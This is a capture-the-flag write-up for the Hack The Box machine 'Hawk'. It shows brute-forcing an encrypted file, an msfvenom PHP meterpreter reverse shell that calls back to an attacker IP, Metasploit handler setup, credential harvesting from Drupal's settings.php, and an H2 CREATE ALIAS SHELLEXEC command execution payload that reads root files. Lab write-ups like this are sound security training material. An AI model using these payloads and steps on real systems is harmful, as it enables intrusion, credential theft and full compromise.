


146 - Hawk
==========

Mandatory nmap scan:
```bash
❯❯❯ sudo nmap -sS --top-ports 1000 10.10.10.102
Starting Nmap 7.70 ( https://nmap.org ) at 2018-07-24 17:47 CEST
Nmap scan report for 10.10.10.102
Host is up (0.087s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
8082/tcp open  blackice-alerts

Nmap done: 1 IP address (1 host up) scanned in 18.41 seconds
```

OK, FTP, SSH, web server and some kind of database that does not allow remote connections:
```
H2 Console

Sorry, remote connections ('webAllowOthers') are disabled on this server. 
```

On the FTP server, using my file manager I could find a hidden file:


Once downloaded and renamed we can check what kind of file this is:
```bash
❯❯❯ file drupal.txt.enc
drupal.txt.enc: openssl enc'd data with salted password, base64 encoded
```

Then we decode it from base64:
```bash
❯❯❯ base64 -d drupal.txt.enc > encrypted.enc
```

So openssl encrypted, let's crack it. To do that I've used a tool found on github: <https://github.com/glv2/bruteforce-salted-openssl>. The issue is that we don't know how it was encrypted. Assuming we can crack it with a wordlist I wrote the following bash script to try and bruteforce all possible ciphers and digests using the "rockyou" wordlist:
```bash
#!/bin/bash

for c in `cat ciphers.txt`; do
    echo "=== Trying cipher $c ===";
    for d in `cat digests.txt`; do
        echo "# Trying digest $d";
        bruteforce-salted-openssl/bruteforce-salted-openssl -c $c -d $d -t 2 -f ../rockyou.txt encrypted.enc
    done;
done;
```

Where `ciphers.txt` and `digests.txt` contain the possible ciphers and digests respectively. This took some time but in the end the script found out that the encryption was done using the cipher AES-256-CBC and the digest SHA256 with the password `friends`. The file can then be decoded using the following command:
```bash
❯❯❯ openssl enc -d -aes256 -salt -in encrypted.enc -out decrypted-drupal.txt -k friends
```

And we can now read the content:
```bash
❯❯❯ cat decrypted-drupal.txt
Daniel,

Following the password for the portal:

PencilKeyboardScanner123

Please let us know when the portal is ready.

Kind Regards,

IT department
```

The password can be used with the username `admin` to log in on the drupal portal available on <http://10.10.10.102>. From here one can create a new page on the drupal portal that contain custom PHP code. From here, let's generate a payload with msfvenom:
```bash
❯❯❯ msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.14.229 LPORT=8123 -f raw > shell.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 30303 bytes
```

One can then copy this payload in a new "basic page" with PHP code on drupal to have a connect back. This feature of Drupal can be enabled since we are admin, have a look at <https://www.drupal.org/docs/7/howtos/add-php-code-to-the-body-of-a-drupal-7-block> for details. But first set up the metasploit listener:
```bash
msf > use exploit/multi/handler 
msf exploit(multi/handler) > set payload php/meterpreter_reverse_tcp
payload => php/meterpreter_reverse_tcp
msf exploit(multi/handler) > set LPORT 8123
LPORT => 8123
msf exploit(multi/handler) > set LHOST 10.10.14.229
LHOST => 10.10.14.229
msf exploit(multi/handler) > exploit -j -z
[*] Exploit running as background job 0.
```

And then, we can visit the new page and get a new session that gains the user flag:
```bash
msf exploit(multi/handler) > [*] Meterpreter session 1 opened (10.10.14.229:8123 -> 10.10.10.102:48870) at 2018-08-24 18:16:06 +0200
msf exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer    : hawk
OS          : Linux hawk 4.15.0-23-generic #25-Ubuntu SMP Wed May 23 18:02:16 UTC 2018 x86_64
Meterpreter : php/linux
meterpreter > ls /home
Listing: /home
==============

Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
40755/rwxr-xr-x  4096  dir   2018-08-24 17:01:57 +0200  daniel

meterpreter > cat /home/daniel/user.txt
d5111d4f75370ebd01cdba5b32e202a8
```

## Privilege escalation
Now it's time to exploit the H2 web interface that only allows connection from localhost. Since we have a meterpreter shell we can easily do port forwarding to connect from the localhost:
```bash
meterpreter > portfwd add -l 8082 -p 8082 -r 127.0.0.1
[*] Local TCP relay created: :8082 <-> 127.0.0.1:8082
```

Then the H2 interface is open:


We can find the credentials for the drupal database in `/var/www/html/sites/default/settings.php`:
```php
    array (
      'database' => 'drupal',
      'username' => 'drupal',
      'password' => 'drupal4hawk',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
```

It turns out that this password can also be used for the user `daniel` allowing us to have a more stable connection over SSH as follows:
```bash
❯❯❯ ssh -L 8082:127.0.0.1:8082 daniel@10.10.10.102
daniel@10.10.10.102's password: 
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 System information disabled due to load higher than 1.0


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

55 packages can be updated.
3 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Aug 28 14:58:23 2018 from 10.10.14.2
Python 3.6.5 (default, Apr  1 2018, 05:46:30) 
[GCC 7.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>>
```

We end up in some kind of python shell but we don't care, we can access the H2 database. Then, some googling reveals a vulnerability in this database that can be exploited easily with the web interface: <https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html>

So to exploit this, log in the H2 web panel with:

- Driver class: org.h2.Driver
- JDBC URL: jdbc:h2:/drupal
- User Name: drupal
- Password: drupal4hawk

Then run the provided example code to create the `SHELLEXEC` function and run it to get the flag:
```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
CALL SHELLEXEC('cat /root/root.txt')
```

And this returns the root flag:
```
54f3e840fe5564b42a8320fd2b608ba0
```
